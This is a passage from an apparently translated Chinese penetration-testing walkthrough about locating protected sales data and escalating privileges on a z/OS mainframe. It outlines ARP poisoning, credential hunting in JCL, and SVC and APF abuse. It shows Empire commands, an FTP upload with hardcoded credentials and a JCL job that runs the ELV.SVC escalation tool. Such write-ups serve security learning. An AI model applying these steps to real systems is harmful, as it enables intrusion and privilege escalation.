 考虑到我们所讨论的只是重要的、几乎是关键的数据，因此它很有可能受到严格保护。这意味着必须有一些规则规定：“只有这些帐户才能访问读取/更改此数据”。如果我们集中精力寻找这样的规则，我们就能找到数据。规则比数据少得多，所以这是一个很好的权衡。

z/OS上的访问规则通常由一个安全组件处理：RACF、TOPSecret或ACF2。RACF占据了近70%的市场份额。LISTUSER命令是RACF命令。它成功的事实证明我们是在一个RACF系统上，所以这已经解决了。

RACF规则非常标准，而且相对容易理解（RACF命令示例参阅http://ruifeio.com/2012/02/25/useful-racf-commands-for-administrators/）。我们有三个主要的访问级别：READ、ALTER和UPDATE。ALTER特权允许更改内容和保护资源的规则，而UPDATE只允许更改内容。

要在RACF数据库中搜索包含销售数据集的已定义规则，只需发出以下命令：
```
SEARCH FILTER(*.SALES.**)
```

是一个警告！鉴于我们有限的权限，此命令将失败（或不返回任何内容），除非：
- FTPSRV帐户拥有规则或规则所涵盖的数据，这是极不可能的。
- FTPSRV帐户有特殊的（例如root）属性，我们知道它没有。

考虑到第一个条件是最不可能的，那么在大型机上提升权限如何？据报道，这是一台无法攻克的机器，那么这是否有意义呢？

许多人会惊讶地发现，截至2017年，有许多选项可用于大型机上的提权。

让我们逐一探究：
- 嗅探流量，直到我们找到一个高特权帐户。大多数与大型机的网络通信都是明文的，所以我们只需要执行ARP投毒来获取证书。可能需要一段时间，但有时这是唯一的选择。
- 在JCL代码和系统脚本中搜索密码。可能会证明是非常有益的。然而，搜索千兆字节文件的行为可能会导致一些CPU峰值，这会引起硬件管理器的注意。大型机客户机是按其CPU消耗量计费的，因此您可以准确地猜测它们非常密切地监视它。
- 寻找“神奇”的 Supervisor Calls (SVC)。这些是内存中的特殊函数，由管理员（或由软件安装）编码以授予它们临时的高权限。这一切都很好，只要他们得到适当的保护！但事实并非如此。
- 寻找保护不力的Authorized Program Facilities(APF)。这些是保存内核模块的特殊文件夹。如果我们可以在这些目录中插入一个程序，我们将获得最高的权限。

谢天谢地，我们不需要从头开始编写程序来执行这些检查。

其他人已经为我们承受了重担，所以我们只需在他们的波浪上冲浪。对于中间人攻击，查看SETn3270(参阅https://github.com/zedsec390/defcon23/tree/master/Network%20Tools/SETn3270)。

但是，我们不能在Windows服务器上启动它，因为它需要OpenSSL和其他库。我们可以将Python脚本编译成一个EXE文件并处理好依赖关系，但我们将把它作为最后一个选项。

同时，我们从ayoul3的Github存储库下载ELV.SVC程序(下载链接https://github.com/ayoul3/Privesc/blob/master/ELV.SVC)。它可以寻找SVC函数，这种类型授予无限权限并转储其代码。然后我们可以检查有哪些保护措施（如果有的话）。

有时SVC可能需要在授予授权之前将某个字符串或数字放在注册表中。一旦我们知道了这一点，我们就可以指示ELV.SVC在哪个注册表中定位哪些数据，然后让它做它的工作：创建一个调用SVC的程序，接收完全权限，然后将我们的帐户提升到特殊状态。

需要注意的是，ELV.SVC不是一个JCL文件，而是一个REXX脚本，相当于z/OS上的python。首先，我们需要将其传输到大型机，然后提交执行此脚本的作业：
```
(Empire: SalesFTP) > upload /root/ELV.SVC c:\users\sysback\appdata\local\
(Empire: SalesFTP) > shell ftp -i -s:ftp_svc.txt > result.txt
```
```
open 192.168.1.200
FTPSRV
PASS01
put C:\Users\sysback\AppData\Local\ELV.SVC
quit
```

执行此脚本的JCL卡与以前相同。传递给ELV.SVC的“LIST”选项在内存中搜索SVC：
```
//FTPSRV1 JOB
//STEP01 EXEC PGM=IKJEFT01
//SYSTSIN DD *
ex 'FTPSRV.ELV.SVC' 'LIST'
/*
//SYSIN DD DUMMY
//SYSTSPRT DD DSN=FTPSRV.OUTPUT2,
// DISP=(NEW,CATLG),
// SPACE=(TRK,1)
```
